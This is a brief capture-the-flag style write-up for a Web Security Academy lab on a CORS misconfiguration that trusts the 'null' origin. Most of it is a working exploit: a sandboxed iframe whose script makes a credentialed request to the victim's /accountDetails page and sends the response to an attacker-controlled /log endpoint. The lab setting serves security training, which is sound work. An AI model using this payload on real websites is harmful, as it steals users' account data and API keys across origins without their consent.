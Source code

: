 # CORS vulnerability with trusted null origin
Find a request to `/accountDetails` and try and set `Origin: null` and observe that the server responds with it as an allowed cross origin. To invoke this, we can make an iframe that has sandboxed mode - this will send requests with `Origin: null` which will be allowed.

```html
<!DOCTYPE html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var r = new XMLHttpRequest();
    r.onload = reqListener;
    r.open('get','https://0a6b00ec036acc39805fb737003500ae.web-security-academy.net/accountDetails',true);
    r.withCredentials = true;
    r.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
"></iframe>
```